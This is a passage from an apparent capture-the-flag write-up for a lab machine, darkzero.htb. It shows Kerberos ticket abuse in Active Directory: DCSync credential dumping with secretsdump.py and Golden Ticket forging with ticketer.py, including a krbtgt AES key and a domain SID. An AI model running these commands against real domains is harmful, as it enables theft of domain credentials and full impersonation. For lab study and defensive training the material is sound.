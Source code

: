 Let's set our .ccache as our way to authenticate as `export KRB5CCNAME=dc01.ccache`. If you want to you can look inside of the .ccache to check if everything works with `klist -c filename.ccache`.

Now we have the .ccache set up, we will cacth the kerberos keys to get to the next step using.

`secretsdump.py -k -no-pass -dc-ip <ip> -just-dc-user DC01$ @darkzero.htb`

if you see issues with time use `sudo ntpdate <target ip>`.

![dump](docs/26.png)

We need the aes256 key to create a `golden ticket`. To perform a Golden Ticket attack in Active Directory, we need to generate a forged Kerberos Ticket Granting Ticket `(TGT)` that’s trusted by the Key Distribution Center `(KDC)`. Here’s how I did it in my workflow, with an explanation of each piece:

`krbtgt AES key`: extracted using DCSync (secretsdump.py or mimikatz) after gaining high privileges on a DC. This key signs Kerberos tickets.

`Domain SID`: unique identifier for the Active Directory domain. Also grabbed via secretsdump.py or similar.

`Domain FQDN`: e.g., DARKZERO.HTB.

`RID/User ID and username`: the account you want to impersonate; for machine accounts, add a $ at the end (e.g., DC01$).

```bash
ticketer.py -aesKey 25e1e7b4219c9b414726983f0f50bbf28daa11dd4a24eed82c451c4d763c9941 \
  -domain-sid S-1-5-21-1152179935-589108180-1989892463 \
  -domain DARKZERO.HTB \
  -user-id 1000 DC01$
```

So basically,

- `aesKey` tells ticketer.py which key to use for forging and signing the ticket – this must be the actual krbtgt AES key from the domain.

- `domain-sid` is the domain's SID so the ticket matches the domain context.
